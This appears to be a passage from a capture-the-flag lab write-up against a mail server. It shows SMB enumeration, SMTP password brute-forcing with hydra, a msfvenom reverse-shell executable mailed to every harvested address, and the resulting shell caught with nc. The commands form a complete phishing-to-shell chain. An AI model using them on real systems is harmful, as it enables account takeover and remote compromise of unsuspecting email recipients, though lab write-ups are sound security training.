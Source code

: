 SMB guest access is disabled:
```shell
nxc smb 10.10.126.65 -u guest -p '' --shares  
SMB  10.10.126.65  445  BRICK-MAIL  [*] Windows 10 / Server 2019 Build 17763 x64 (name:BRICK-MAIL) (domain:BRICK-MAIL) (signing:False) (SMBv1:False)  
SMB  10.10.126.65  445  BRICK-MAIL  [-] BRICK-MAIL\guest: STATUS_ACCOUNT_DISABLED
```

I run `cewl` on `https://brownbricks.co` to get a list of passwords I can use in hydra to find a login for the smtp server:
```shell
cewl -d 3 -m 3 https://brownbrick.co -w passwords.txt  
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

I dont find a login the first time I run hydra so I ask an AI to make permutations of the words, then run the command again:
```shell
hydra -L emails.txt -P passwords.txt 10.10.126.65 smtp -s 587 -t 16  
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-23 18:53:31  
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1800 login tries (l:6/p:300), ~113 tries per task  
[DATA] attacking smtp://10.10.126.65:587/  
[587][smtp] host: 10.10.126.65   login: lhedvig@brownbrick.co   password: redacted
[STATUS] 1053.00 tries/min, 1053 tries in 00:01h, 747 to do in 00:01h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

With valid creds I create a reverse shell with `msfvenom` and send it over email: 
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.66.123 LPORT=1337 -f exe -o suprise.exe
```

After some research I find I can send emails in my terminal with `sendemail`! I download it with `sudo apt install sendemail -y` and run this command to send the malicious binary:
```shell
for email in $(cat emails.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "Suprise!" -m "Suprise!" -a suprise.exe -s 10.10.126.65:25 -xu "lhedvig@brownbrick.co" -xp "redacted"; done  
Sep 23 19:06:03 parrot sendemail[4243]: Email was sent successfully!  
Sep 23 19:06:05 parrot sendemail[4244]: Email was sent successfully!  
Sep 23 19:06:08 parrot sendemail[4245]: Email was sent successfully!  
Sep 23 19:06:10 parrot sendemail[4246]: Email was sent successfully!  
Sep 23 19:06:13 parrot sendemail[4247]: Email was sent successfully!  
Sep 23 19:06:16 parrot sendemail[4248]: Email was sent successfully!
```

I set my listener with `nc -lvnp 1337` and get a reverse shell as `wrohit`:
```shell
nc -lvnp 1337  
Listening on 0.0.0.0 1337  
Connection received on 10.10.126.65 49787  
Microsoft Windows [Version 10.0.17763.1821]  
(c) 2018 Microsoft Corporation. All rights reserved.  
  
C:\Mail\Attachments>whoami  
whoami  
brick-mail\wrohit  
  
C:\Users\wrohit\Desktop>dir  
dir  
Volume in drive C has no label.  
Volume Serial Number is A8A4-C362  
```